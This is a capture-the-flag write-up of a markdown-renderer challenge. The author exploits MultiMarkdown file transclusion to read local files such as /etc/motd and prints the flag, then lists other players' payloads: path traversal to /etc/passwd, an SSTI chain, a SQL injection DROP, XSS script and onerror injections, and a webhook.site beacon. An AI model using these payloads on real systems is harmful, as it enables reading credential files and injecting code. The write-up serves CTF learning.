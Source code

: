 # Challenge

So the developer elf has been busy making this great tool for Santa to get all wishlists uploaded and formatted correctly. You can really just mark down your wishlist and see the great rendered result!

http://wishlistrenderer.norwayeast.azurecontainer.io:8888

But the elf used a vulnerable piece of software to do the rendering.... can you figure out how to exploit it?

> **Hint:** No flag.txt this time... you need to find a very common *nix file... Seasons greetings to you all!

# Writeup 

I saw they wrote "Just mark it down" refering to "Markdown" so I tested with #test and got a header. Now I was looking for markdown pwning and googling my ass of a few hours. Came across [pwning a webserver using markdown](https://blog.dixitaditya.com/pwning-a-server-using-markdown) and tested this:

```
![notimage.png](../../../../../etc/passwd)
```

Nothing, tried to send too much data to overload the server and got this information: 

```
PayloadTooLargeError: request entity too large
    at readStream (/server/node_modules/raw-body/index.js:156:17)
    at getRawBody (/server/node_modules/raw-body/index.js:109:12)
    at read (/server/node_modules/body-parser/lib/read.js:79:3)
    at urlencodedParser (/server/node_modules/body-parser/lib/types/urlencoded.js:116:5)
    at Layer.handle [as handle_request] (/server/node_modules/express/lib/router/layer.js:95:5)
    at trim_prefix (/server/node_modules/express/lib/router/index.js:328:13)
    at /server/node_modules/express/lib/router/index.js:286:9
    at Function.process_params (/server/node_modules/express/lib/router/index.js:346:12)
    at next (/server/node_modules/express/lib/router/index.js:280:10)
    at jsonParser (/server/node_modules/body-parser/lib/types/json.js:119:7)
```

Then I knew it was NodeJS so looking around for vulnerabilities within any of the given modules. Found nothing.

We know we are looking for a known *nix file so I'm set on `/etc/passwd`. Googling and learning new words `LFI Local File Inclusion` and `RCE Remove Code Execution`. Mixing them in to the search.

Trying to modify the header data and gets a new stack trace:

```
TypeError [ERR_INVALID_ARG_TYPE]: The "data" argument must be of type string or an instance of Buffer, TypedArray, or DataView. Received undefined
    at Object.writeFileSync (node:fs:2201:5)
    at /server/server.js:13:8
    at Layer.handle [as handle_request] (/server/node_modules/express/lib/router/layer.js:95:5)
    at next (/server/node_modules/express/lib/router/route.js:144:13)
    at Route.dispatch (/server/node_modules/express/lib/router/route.js:114:3)
    at Layer.handle [as handle_request] (/server/node_modules/express/lib/router/layer.js:95:5)
    at /server/node_modules/express/lib/router/index.js:284:15
    at Function.process_params (/server/node_modules/express/lib/router/index.js:346:12)
    at next (/server/node_modules/express/lib/router/index.js:280:10)
    at serveStatic (/server/node_modules/serve-static/index.js:75:16)
```

So I know we're in `/server/server.js` så I atleast have a file I know I can try to include. Also I see my data is written to a file, so my guess is now that it is a linux renderer which is executed. 

I notice if I write 

```json
[
    hello
]
```

the "hello" dissapears and becomes `[]` but I dont know if this is a markdown thing or not. Well around 2 hours in I give up for the day. The next day I think "what if I'm searching from the wrong side, the hacker mind? I need to search as a end user instead". So I google "Markdown include file" and comes over a [stack overflow article](https://stackoverflow.com/questions/4779582/markdown-and-including-multiple-files). Trying all the examples and nothing works until I get to one guy talking about Multimarkdown! They have [file transclusion](https://fletcher.github.io/MultiMarkdown-5/transclusion.html) which just is ``{{anyfile}}`. So I test with `/etc/passwd` and bingo!

Downloaded and cleaned up [server.js](server.js) and they actually are using multimarkdown 

```javascript
var cmd = `multimarkdown -o ${temphtml} ./${tempname}`;
```

Then as it was not the `/etc/passwd` testing a few other common files.

```
/root/.bashrc
/etc/passwd
/etc/shadow
/etc/motd
```

And the last one gave the flag!

```
${5@nta5_li77l3_h3lp3r!}
```

# Other peoples attempts?

There was a bug which made is possible for others to see other attempts on the first version of server.js. Here is some of those I saw:

```
{{‘’.class.mro[2].subclasses()40.read()}}

/var/log /../etc/passwd

SELECT * FROM wishlist; DROP wishlist–
```

Close, has the curly brackets. But no valid files.

```
<script>fetch("../../../../etc/passwd").then(res => document.write(res.text()))</script>
```

Nice check, that xss'es me! :) 

```
<figure>
<img src="./nix.conf" alt="The goodest boy" />
<figcaption>The goodest boy</figcaption>
</figure>
```

I found this website myself, tried this also. Bah.

```
${flag}
```

Too simple! But you have the curly's

```
$${flag}
```

Not giving up ey?

```
<figure>
<img src="motd" alt="bilde" />
<figcaption>bilde</figcaption>
</figure>
```

Woah, motd? Did someone tip you off or was this your first thought on a common nix file?

```
<figure>
<img src=""onerror="alert('XSS')" alt="Uh oh..." />
<figcaption>Uh oh&#8230;</figcaption>
</figure>
```

Alertbox on my screen. Woaah! 

```
<script>
    xhzeem = new XMLHttpRequest();
    xhzeem.onload = function(){document.write(this.responseText);}
    xhzeem.onerror = function(){document.write('failed!')}
    xhzeem.open("GET","file://./nix.conf");
    xhzeem.send();
</script>
```

Trying to get my private files? :P 

```
<h3 id="messageoftheday">Message of the day</h3>

<figure>
<img src="https://webhook.site/6ea7e88f-ae02-4efa-bec4-5f4c47b047b2" alt="" />
</figure>
```

Well, a lot of nice attempts. Tried RCE but did not really find a way as of now. But flag is in box!